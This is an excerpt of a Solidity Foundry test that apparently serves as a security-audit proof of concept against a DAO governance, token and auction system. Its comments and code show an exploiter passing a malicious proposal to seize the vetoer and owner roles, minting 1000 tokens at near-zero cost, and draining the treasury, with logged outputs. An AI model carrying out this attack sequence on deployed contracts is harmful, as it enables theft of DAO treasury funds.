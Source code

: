 ```solidity
        //Exploiter creates a malicious proposal that does the following: 1. sets itself as Vetoer 2. sets itself as owner of auction 3. sets itself as owner of token 4. changes voting parameters (votingDelay, votingPeriod,ExecutionDelay) to minimal values
        //Since exploiter is the first to mint, they have the voting power to pass to proposal with a single vote.
        vm.warp(block.timestamp+1);
        createMalProposalAndVote(claimerExploiter);
        console2.log("Vetoer: %s\n Owner of token: %s\nOwner of auction: %s",governor.vetoer(),token.owner(), auction.owner());
        //OUTPUT:   Vetoer: 0x00000000000000000000000000000000000000C1
        //          Owner of token: 0x00000000000000000000000000000000000000C1
        //          Owner of auction: 0x00000000000000000000000000000000000000C1

        //Exploiter changes auction params to mint themselves 1000s of tokens immediately and for virtualy no cost, gaining unbeatable voting power.
        vm.startPrank(claimerExploiter);
        auction.setReservePrice(1);
        auction.setDuration(1);
        auction.setTimeBuffer(0);
        auction.unpause();
        for (uint i;i<1000;i++) {
            (uint256 tokenOnAuction,,,,,) = auction.auction();
            auction.createBid{value: 1}(tokenOnAuction);
            vm.warp(block.timestamp + 1);
            auction.settleCurrentAndCreateNewAuction();
        }
        vm.stopPrank();
        console2.log("Token balance of exploiter: %s",token.balanceOf(claimerExploiter));
        //OUTPUT: Token balance of exploiter: 1001

        //The exploiter can now pass any proposal within 10 minutes (after setting MIN_VOTING_DELAY and MIN_VOTING_PERIOD) having minted enough voting power to overcome any group of merkle claimers. In addition, their proposals can not be vetoed since they are the Vetoer.
        

        //deployer migrates funds to the new DAO
        vm.prank(address(xDomainMessenger));
        deal(address(xDomainMessenger),20 ether);
        deployer.depositToTreasury{value: 10 ether}();

        //exploiter swipes all funds in treasury with a proposal (executed within 10 minutes)
        uint256 balanceBefore = claimerExploiter.balance;
        createSwipeAllProposalAndVote(claimerExploiter);
        uint256 balanceAfter = claimerExploiter.balance;
        console2.log("exploiter balance change after swipe: %s",balanceAfter-balanceBefore);
        //OUTPUT: exploiter balance change after swipe: 10500000000000001000
        //this includes the profits from the original exploiter claim, the 10 ether deposit and 1000 wei from the auctions loop
    }

    function deploy() internal {

        //set params
        setAltMockFounderParams();
        setMockTokenParamsWithReserve(100);
        setMockAuctionParams();
        setMockGovParams();
        setMinterParams();

        vm.startPrank(address(xDomainMessenger));

        address _token = deployer.deploy(foundersArr, tokenParams, auctionParams, govParams, minterParams);
```